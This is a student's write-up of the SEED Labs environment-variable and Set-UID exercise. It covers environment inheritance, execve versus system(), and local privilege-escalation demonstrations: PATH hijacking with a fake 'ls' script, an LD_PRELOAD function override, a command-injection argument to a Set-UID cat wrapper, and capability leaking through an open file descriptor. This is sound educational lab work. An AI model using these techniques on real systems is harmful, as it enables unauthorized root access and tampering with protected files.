To continue developing our understanding of around cybersecurity, a seed lab is conducted following the outline seen here https://seedsecuritylabs.org/Labs_20.04/Files/Environment_Variable_and_SetUID/Environment_Variable_and_SetUID.pdf.
This seed lab will be centered around Environment Variables and Set UID.
The first task we will be performing will be manipulating Environment Variables (EVs). To print out and see the environment variables the command 'printenv' and 'env' though this prints ALL the environment variables. To get information on a specific EV the previous commands can be used again but now with extra words. For example, if you need more info of the EV 'PWD' the command 'printenv PWD' or 'env | grep PWD'.
If the EVs need to be changed or unchanged the command 'export' is used to set a EV and 'unset' to unset a EV. For example if you want a EV MY_NAME to be set as Sally, use the command 'export MY_NAME="Sally"' though this is only temporary until as it will unset when the terminal closes. To unset MY_NAME use the command 'unset MY_NAME'.

The next task around EVs will be about EVs from a parent process to a child process, more specifically if a EV is inherited from the parent to the child.
To do this task, the program 'myprintenv.c' from the provided zip folder will be used.
myprintenv.c:
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

extern char **environ;
void printenv()
{
    int i = 0;
    while (environ[i] != NULL) {
        printf("%s\n", environ[i]);
        i++;
    }
}

void main()
{
    pid_t childPid;
    switch(childPid = fork()) {
        case 0: /* child process */
            printenv(); ➀
            exit(0);
        default: /* parent process */
            //printenv(); 
            exit(0);
    }
}

The program is first compiled using 'gcc myprintenv.c' and ensure that we are in the directory the file is located in. To see what happens the outpur can be saved into a file using 'a.out > file' and some of the files contents can be seen in the image below.

We can see that the result is that we get a complete set of environment variables.this shows that the child process inherited the EVs from the parent as the parent code is currently commented out.

The next step we will comment out the printenv line in the child code and uncomment that line in the parent code and save the output to a file called file2. To check the differences between file and file2, the command 'diff file file2' is used and since there is no output that means there are no differences which means the child inherited all the EVs from the parent.

The next task will be using the execve and seeing how it affects EVs. For this the program 'myenv.c' is used. 
myenv.c:
#include <unistd.h>

extern char **environ;
int main()
{
    char *argv[2];

    argv[0] = "/usr/bin/env";
    argv[1] = NULL;
    execve("/usr/bin/env", argv, NULL); ➀
    return 0 ;
}

The first step is to compile and run it but no output is shown. This shows that execve() does not inherit the parents process.

Foe the next task the line 'execve("/usr/bin/env", argv, NULL);' has the line changed to 'execve("/usr/bin/env", argv, environ);'. When this is done, the full list of envrionment variables is printed. Now that 'environ' is used instead of 'NULL' the child program now has the same environment as the parent.

The next task instead of using 'execve()' a system call is used. The program that is created and used is the following called task4.c:
#include <stdio.h>
#include <stdlib.h>
int main()
{
    system("/usr/bin/env");
    return 0 ;
}

Unlike the execve program the process automatically passes the environment to the child, and therefore prints all the EVs.

The next task the program task5.c is created which prints the EVs using printf and interating through environ.
task5.c
#include <stdio.h>
#include <stdlib.h>

extern char **environ;
int main()
{
    int i = 0;
    while (environ[i] != NULL) {
        printf("%s\n", environ[i]);
        i++;
    }
}

The output prints all the EVs in the current process.
The next step is to change the programs ownership to root and make it a Set_UID program. to do so the following commands are used: 
$ sudo chown root foo
$ sudo chmod 4755 foo



we can see in the image that this is successful as we see rws on the owner permissions and to confirm by using the command './foo' to see the evs listed.

The final step we log onto the normal user account 'sally' and edit/create some evs with the following commands:
export PATH="/usr/local/bin:$PATH"
export LD_LIBRARY_PATH="/tmp/mylibs"
export MYVAR="hello_world"

Running foo again we can see the outputs we want in the following pictures:




The LD_LIBRARY_PATH variable isn't shown which seems to be a security feature in modern linux operating systems.

The next task involves PATH EV and Set-UID programs, where the vulnerable program named ls_vuln.c is exploited.
ls_vuln.c:
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    printf("real uid: %d, effective uid: %d\n", getuid(), geteuid());

    system("ls");
    return 0;
}

some lines of code are added to the provided code for verification.

To make the program owned by root and Set-UID, the commands 'sudo chown root:root ls' and 'sudo chmod 4755 ls' .To verify we can log into a normal users account and run it as seen below.


/bin/sh is replaced with zsh according to the seed lab, ensure zsh is installed or you will run into problems.

The malicious code ls is created to see if the vulnerable code runs it.
ls:
mkdir -p ~/malicious
cat > ~/malicious/ls <<'EOF'
echo "I am fake ls script"
id
EOF

chmod +x ~/malicious/ls

The directory is prepended to path using 'export PATH="$HOME/malicious:$PATH"'. When the ls_vuln.c program is ran now, we can see that the EUID is now 0 giving the code root privileges as seen below.


The next task centered around the LD_PRELOAD EV and Set_UID programs using the program mylib.c.
mylib.c:
#include <stdio.h>
void sleep (int s)
{
    /* If this is invoked by a privileged program,
    you can do damages here! */
    printf("I am not sleeping!\n");
}

To compile the program the following commands are used:
gcc -fPIC -g -c mylib.c
gcc -shared -o libmylib.so.1.0.1 mylib.o -lc

Then set the LD_PRELOAD EV using the command 'export LD_PRELOAD=./libmylib.so.1.0.1'

The program 'myprog.c' is created, compiled, and ran.
The output would say "I am not sleeping!" as seen in the image below which means that the sleep() var from the library was loaded before system C library.
myprog.c:
#include <unistd.h>
int main()
{
    sleep(1);
    return 0;
}



When run as a normal program and user, it outputs as expected as the dynamic loader accepts the EV LD_PRELOAD settings, but when run as a Set_UID program, there is no output as the dynamic loader ignores potentially dangerous EVS. 
When you switch over to either root or use sudo it works again as you have the necessary privileges.
When the program is owned by a different user like bob and run by sally, it doesnt work still as they dont have the privileges.

The next task will be comparing system() and execve() using the catall.c program.
catall.c:
int main(int argc, char *argv[])
{
    char *v[3];
    char *command;
    if(argc < 2) {
        printf("Please type a file name.\n");
        return 1;
    }
    v[0] = "/bin/cat"; v[1] = argv[1]; v[2] = NULL;
    command = malloc(strlen(v[0]) + strlen(v[1]) + 2);
    sprintf(command, "%s %s", v[0], v[1]);

    // Use only one of the followings.
    system(command);
    // execve(v[0], v, NULL);
    return 0;
}

The program is compiled and made into a Set-UID. Before it is ran, a temporary file is created using the command 'echo "this is a public file" > /tmp/publicfile'.
When run the command './catall /tmp/publicfile' and the output can be seen below.


This is fine but you can perform a command injection using the command './catall "/tmp/publicfile; echo HACKED"' which shows the following output:


This can compromise security as a user can cause additional commands to run under the programs privilege.

The program is edited to use the execve command and the system command is commented out. when compiled and ran without the injection is outputs as expected as seen below


but when run with the same injection the following below is the output.


This shows that unlike with system, the execve does not inject the command and now doesnt work.

The final task undertakes capability leaking. The program used is cap_leak.c.
cap_leak.c:
void main()
{
    int fd;
    char *v[2];

    /* Assume that /etc/zzz is an important system file,
    * and it is owned by root with permission 0644.
    * Before running this program, you should create
    * the file /etc/zzz first. */
    fd = open("/etc/zzz", O_RDWR | O_APPEND);
    if (fd == -1) {
        printf("Cannot open /etc/zzz\n");
        exit(0);
    }

    // Print out the file descriptor value
    printf("fd is %d\n", fd);
    // Permanently disable the privilege by making the
    // effective uid the same as the real uid
    setuid(getuid());

    // Execute /bin/sh
    v[0] = "/bin/sh"; v[1] = 0;
    execve(v[0], v, 0);
}

Like before a dummy/test file is created using the following command:
sudo bash -c 'echo "ORIGINAL" > /etc/zzz && chmod 0644 /etc/zzz && chown root:root /etc/zzz'

As before the code is given root as the owner and Set_UID.
The program when run outputs "fd is 3" as it returns the test files descriptor. Now the process is running as an unprivileged user and get an interative prompt.
Now while in this prompt we can write 'echo "appended by leak" >&3' then exit and when we check the file we can see that text inside of it as seen below:


this shows that even though we are running it as a unprivileged user, we could still write to the zzz test file demonstrating capability leaking.

This concludes ths lab and overall the tasks were a success as we were able to understand evs and Set-UID better and various attacks.